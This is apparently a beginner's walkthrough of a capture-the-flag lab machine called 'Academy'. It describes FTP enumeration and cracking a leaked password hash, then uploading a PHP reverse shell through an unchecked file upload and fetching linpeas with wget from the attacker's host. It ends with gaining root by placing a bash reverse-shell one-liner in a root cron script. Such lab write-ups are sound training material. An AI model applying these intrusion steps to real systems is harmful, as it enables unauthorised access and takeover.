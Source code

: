 This machine is one of the first machines i got root access to. It was really fun and this is going to be like a walkthrough to it.
Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will rnot really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 
![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)


We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: <nmap -A -p- IP>
![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21, 22 and 80. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.
We go ahead to check out what ftp has for us. For that we use <ftp IP> and then we are able to list what files are there. FTP simply means file transfer protocol, it is used to download, upload, and transfer files from one location to another on the internet and between systems.
![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)


Here we downloaded the note.txt file using <get file-name> and then I viewed it on my attaker's machine. From the note.txt, we found out Grimmie was was a user and dev who uses same passwords everwhere hehe😂 and we also found a SQL database where we saw the student RegNo, passwords and all other things that can be used to login. It was also from 2020 and the message ws from jdelta.

After that we check outh the next port that might matter to us. SSH is not it so we move down to port 80.
Just paste the IP on your browser and check round for any useful information. After loading the website, there was no much information. we only knew what technology was behind it.
![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)
Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.
![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that and i got an error ![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)
 so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.
![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

Nothing was looking intersting here, just the 'My Profile' page. I uploaded a photo there and it went successful and then i tried to upload a file that was neither .jpg or .png format and it went. I smiled and said to myself, I am in that mode already with one kind of evil smile on my face. The plan here was to create a reverse shell and see if we can gain access. I simply go to google and search for php reverse shell. It bring out one pentestmonkey githb, i moved in there and saw a sweet code i can work with. i copied the entire code and used nano to create a .php file. I named it shell.php. SYNTAX: <nano <file_name>.php>. Read the code and change what needs to be changed, upload and listen. Once agai guys.... I'm in!!!. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, ![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)
i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferrig from my machine to the target's mahine, i use <wget http://MY_IP/file> ![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). Now is time to change the permission to make it executable and then run!!!. 
![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)
We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇
![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 
![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)
Now it's looking like it's a dead end after trying sudo -l. I checked the content of backupsh and realised it supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.
![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From hree, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 
![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.
![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678. ![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).
We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)
Just find the flag and at it out. 
![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

